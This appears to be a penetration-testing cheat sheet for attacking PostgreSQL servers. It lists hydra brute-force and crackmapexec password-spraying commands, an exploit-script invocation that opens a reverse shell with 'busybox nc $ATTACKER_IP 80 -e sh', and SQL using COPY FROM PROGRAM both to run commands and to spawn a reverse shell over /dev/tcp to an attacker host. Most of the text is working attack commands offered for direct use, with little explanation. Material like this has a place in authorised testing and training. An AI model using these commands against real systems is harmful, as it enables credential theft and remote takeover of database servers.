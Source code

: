 
**Brute Force**

    hydra -L users.txt -P passwords.txt -s 5432 <ip> postgresql
    

**Password Spraying**

    crackmapexec postgres -d <DB_NAME> -u <USER> -p <PASSWORD> -t <ip>
    

**Logging In**

    # -W: Prompt for password
    psql -h <ip> -p 5432 -U <USER> -W
    

**RCE**

    # RCE is possible for versions: PostgreSQL DB 11.3 - 11.9
    
    # Run the exploit script to gain remote code execution
    python3 50847.py -i <ip> -p 5437 -c "busybox nc $ATTACKER_IP 80 -e sh"
    

**Code Execution**

    #POC  
    DROP TABLE IF EXISTS cmd_exec;  
    CREATE TABLE cmd_exec(cmd_output text);  
    COPY cmd_exec FROM PROGRAM &#39;id&#39;;  
    SELECT * FROM cmd_exec;  
    DROP TABLE IF EXISTS cmd_exec;
    
    #Reverse Shell
    DROP TABLE IF EXISTS cmd_exec;  
    CREATE TABLE cmd_exec(cmd_output text);
    COPY cmd_exec FROM PROGRAM &#39;sh -i >& /dev/tcp/$KaliIP/8080 0>&1&#39;;
    SELECT * FROM cmd_exec;  
    DROP TABLE IF EXISTS cmd_exec;
    

**Database Usage**

    # List all databases
    \l
    
    # Switch to a specific database
    \c <DB_NAME>
    
    # List all tables in the current database
    \dt
    
